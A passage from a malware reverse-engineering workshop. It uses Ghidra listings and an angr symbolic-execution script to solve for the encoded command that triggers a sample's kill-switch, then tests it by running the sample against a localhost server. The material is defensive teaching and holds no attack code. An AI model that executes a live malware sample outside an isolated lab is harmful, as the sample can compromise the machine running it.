exit, then the variablebVar3is set to true, and subsequently used to post a semaphore and then exit the dispatch loop. We haven't seen where this semaphore is being used, but recall previously that the sample program was also performing some symbol lookups, so it's a safe guess that the host will be waiting on that semaphore before terminating the program.
We now have all of the necessary information to build a kill-switch for this sample.
Solving the Kill-Switch Payload
To enter the kill-switch code path, we need opcode to be equal to the value 0xaf03baa8. The input (oper) is coming from the command and control server, so it is impossible to find that value in the code. We could either spend time trying to understand the transformations that are being made, or we could let the computer solve that for us.
Before diving into the implementation, let's determine which part of the method we need to execute. We want to assume that oper can be anything, and we want to trace execution until opcode is assigned, so right until the if statement at (4) in the code listing above.
Let's grab those memory offsets real quick... the start is right where maybe_command gets dereferenced and assigned to oper (at (3)), the corresponding assembly listing is
get_oper XREF[1]: 420013e9(j)
420013f7 48 8b 45 e8 MOV RAX,qword ptr [RBP + maybe_command] ; (a)
420013fb 8b 00 MOV EAX,dword ptr [RAX] ; (b)
420013fd 89 45 ac MOV dword ptr [RBP + opcode],EAX
42001400 8b 45 ac MOV EAX,dword ptr [RBP + opcode]
42001403 f7 d0 NOT EAX ; (c)
42001405 0d ff 00 00 ff OR EAX,0xff0000ff
At instruction (a), the command buffer is dereferenced, this returns the pointer to the data (the buffer is a structure with a pointer to data and a size). Instruction (b) is then moving a double word (uint32_t) into EAX, which corresponds to the oper = *maybe_command line. From ©, the decoding process is starting, so we will assign a symbolic value to the memory at [RBP + maybe_command] (think of it as an algebraic variable) and execute the code starting from (b) with RAX containing the address of [RBP + maybe_command].
The start RVA is thus 0x13FB.
For the stop offset, we need to identify the first instruction where opcode is fully computed, this corresponds to the assembly
420014d1 8b 45 ac MOV EAX,dword ptr [RBP + opcode]
420014d4 29 d0 SUB EAX,EDX
420014d6 2d c5 f8 eb 54 SUB EAX,0x54ebf8c5
420014db 89 45 ac MOV dword ptr [RBP + opcode],EAX ; (d)
At (d) where EAX is moved into the RBP+opcode, the value of oper is now the expected opcode to execute.
We'll use 0x14DB as the stop offset.
Let's start working on the symbolic execution script. First we'll import angr and define our start and stop offsets.
import angr # Angr core module
from claripy import BVS, BVV # Bitvectors for values and symbols
SYMBEX_START_RVA = 0x13FB # Offset where we should start symbolic execution
SYMBEX_STOP_RVA = 0x14DB # Offset where we should end the symbolic execution
SYMBEX_OUTPUT_OFFSET = -0x54 # The Location on the stack where `opcode` is stored
SYMBEX_INPUT_OFFSET = -0x28
The first step will be to load the unpacked payload into Angr. Because our unpacked payload is not a valid ELF file, we will have to tell Angr to load it as a data blob. This will restrict a lot of the functionality that Angr offers (such as resolving imports, mapping external libraries, etc.) But is fine for our goal, since we want to target a specific code path
UNPACKED_BASE = 0x42000000
unpacked = angr.Project('bin/unpacked.bin', main_opts={
'backend': 'blob',
'arch': 'x64',
'entry_point': 0, # We will not use the entrypoint.
'base_addr': UNPACKED_BASE # Use the same base address as Ghidra for simplicity
})
Next, we will setup the CPU state for Angr, assign symbols and symbolically execute the relevant portion of the function:
# (1) Initialize the internal CPU and memory state of angr for a function call
s0 = unpacked.factory.call_state(UNPACKED_BASE + SYMBEX_START_RVA, add_options=angr.options.simplification)
s0.regs.rbp = s0.regs.rsp # stack has no data in it.
# (2) Create symbols to represent the input data and the resulting opcode.
sym_opcode = BVS('opcode', 32)
sym_input = BVS('input', 32)
# (3) Place the symbols in the angr memory state.
s0.mem[s0.regs.rbp + SYMBEX_OUTPUT_OFFSET].uint32_t = sym_opcode
# Arbitrarily pick 0x1000 as the allocated command buffer.
s0.mem[0x1000].uint32_t = sym_input
s0.regs.rax = 0x1000 # RAX holds a pointer to the command buffer.
# (4) Step through the symbolic execution until we find a block that comes after the stop offset.
sim = unpacked.factory.simgr(s0)
final = None
while not final and len(sim.active) > 0:
for s in sim.active: # Go through each active state in the symbolic execution.
print(f'Executing block @ {s.addr:08X}')
if s.addr >= UNPACKED_BASE + SYMBEX_STOP_RVA:
# The address of this block comes after our target stop address,
# this means that at this CPU state, the opcode must have been
# calculated.
final = s
break
# Advance all active states by one basic-block.
sim.step()
print(f'Final block reached')
# Uncomment to print the abstract syntax tree representing the computation.
# print(final.mem[final.regs.rbp + SYMBEX_OUTPUT_OFFSET].uint32_t)
# (5) Ask Angr to solve the symbolic formula representing the relationship
# between the calculated opcode and the input, assuming that the value is
# the opcode for `exit`.
final.solver.add(sym_opcode == 0xaf03baa8)
# If the solver finds a valid answer, this result must be the input that yields
# the desired output (i.e. the command buffer that will result in the `exit` opcode
# being executed.)
killswitch = final.solver.eval(sym_input)
print(f'Found kill switch encoded opcode: {killswitch:08X}')
# Dump the encoded opcode to disk. Remember that integers on X86 are
# little endian, so we pack it to get the right byte order.
with open('bin/killswitch.bin', 'wb') as out:
out.write(pack('<I', killswitch))
That's all there is to it! This short snippet of code actually has a lot going on though, so let's walk through it step by step.
- The code starts by creating a
call_stateat the start address of the code that we want to emulate. Angr provides several state factories which initialize various parts of the CPU. Thecall_statefactory initializes a stack, sets the value ofRSPand sets the values of any arguments in the registers and on the stack according to a calling convention. It also writes the return address on the stack, and leaves everything else uninitialized.
In this case we do not have any arguments and do not care about the return value, but this saves us from having to manually setup the state. We also set RBP to RSP so that the stack size is 0 and that code references to [RBP + xxx] will work on concrete values. This is necessary because the code that we want to execute addresses local variables on its stack relative to RBP.
- Two symbols are created to represent the input data (32 bits wide) and the resulting opcode. You can think of symbols as algebraic variables that can hold arbitrary values. Throughout the execution, the symbolic execution engine will compute the transformations on those symbols and build an abstract syntax tree (AST) which represents the behavior of the code on the symbols.
- By themselves, the symbols won't achieve much, they must be placed in the memory state so that angr's engine encounters and uses the symbols in its execution. This code is placing the
opcodesymbol at the location in memory which we established stores the final opcode and theinputsymbol at an arbitrary memory address which will be used to represent the command and control's response buffer containing the command to execute. Because we start our code right after the memory address of that buffer has been put in RAX, the script directly puts the chosen address into RAX. - With the CPU and memory state ready for execution, the a simulation manager is created which will store the various possible next states. By default, branches will result in two states being created in the simulation, one where the branch is taken, and one where it isn't. The script simply loops through all possible states until the first state which starts on an instruction that happens after the expected end block is reached. This approach works for this specific case because the function does not trample the local variables and is fairly linear. Some scenarios might require more complex state management.
- With the final state found, the "value" at the memory location where the opcode would normally be is now an AST which represents all the transformations that have occurred to get from
inputtoopcode. Just like a high school math problem, we plug the value ofx(xbeingopcode, in this case) to the value we expect it to be, and ask Angr's solver engine to findinput.
Testing the Kill-Switch
To prove to ourselves that all of this work is actually right, we finally (for the first time since the beginning of the workshop, think about that for a second) execute the sample on our real CPU with a local HTTP server that will serve killswitch.bin as its index.html on localhost:3000. If our calculations are right, the sample should exit immediately.
cp bin/killswitch.bin index.html
python -m http.server 3000
./aba
Congratulations, you've made it through all the labs!
The End
Congratulations, if you've made it this far, you've hopefully learned a lot in a very short period of time. Give yourself a pat on the back and a chance to relax. These concepts are very low-level and need some time to properly sink in.
To give a quick retrospect of what you've achieved throughout this workshop:
- Initial analysis of an unknown sample
- Detecting obfuscation and devising an approach to cirucmvent it
- Using code emulation to statically inspect subsets of a sample
- Using function stubbing to abstract external call and method side effects
- Modify CPU state dynamically during analysis to control execution flow
- Blackbox methods using emulation to "execute" useful functions without having to understand/re-implement them
- Script Ghidra to perform reverse hash lookup and label functions
- Use Symbolic Execution to build an abstract representation of computations
- Use Constraint Solving to query that representation and determine the input that yields the desired output
References
A lot of topics were covered in surface without diving into specifics. If a topic has left you asking "why?" or if you'd like to know more, this section will point you in the right direction.
- Static Analysis, Emulation and Symbolic Execution
- Obfuscation, Deobfuscation, Program Analysis
- The ELF Format and Dynamic Loading
- Additional Material
- Self-Promotion & Contact
- @alxbl_sec on Twitter
- Personal Website
- @alxbl almost everywhere else